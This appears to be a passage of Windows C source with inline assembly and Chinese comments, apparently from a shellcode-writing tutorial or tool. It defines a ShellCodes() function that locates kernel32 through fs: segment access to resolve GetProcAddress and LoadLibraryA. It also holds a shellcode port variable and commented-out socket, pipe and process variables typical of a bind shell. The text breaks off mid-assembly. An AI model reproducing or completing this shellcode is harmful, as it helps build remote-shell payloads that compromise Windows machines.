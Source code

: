 /////////////////////////
//定义结束标志
/////////////////////////
          PROC_END      //C macro to end proc

          }
}

//
//shellcode代码
//
void ShellCodes()
{
    //API低址数组
    FARPROC     API[API_num];


    //自己获取的API地址
    FARPROC     GetProcAddr;
    FARPROC    LoadLib;

    HANDLE      hKrnl32;
    HANDLE      libhandle;

    char        *ApiStr_addr,*p;

    int         k;
    u_short     shellcodeport;

    //测试用变量
    char        *testAddr;

/*
    STARTUPINFO siinfo;
    SOCKET      listenFD,clientFD;
    struct      sockaddr_in server;
    int         iAddrSize = sizeof(server);
    int         lBytesRead;
    PROCESS_INFORMATION ProcessInformation;
    HANDLE      hReadPipe1,hWritePipe1,hReadPipe2,hWritePipe2;
    SECURITY_ATTRIBUTES sa;

*/


_asm {
        jmp    locate_addr0
getApiStr_addr:
        pop    ApiStr_addr

        //开始获取API的地址以及GetProcAddress和LoadLibraryA的地址
        //以后就可以方便地获取任何API的地址了

        //保护寄存器
        pushad

    xor     esi,esi
        lods    dword ptr fs:[esi]
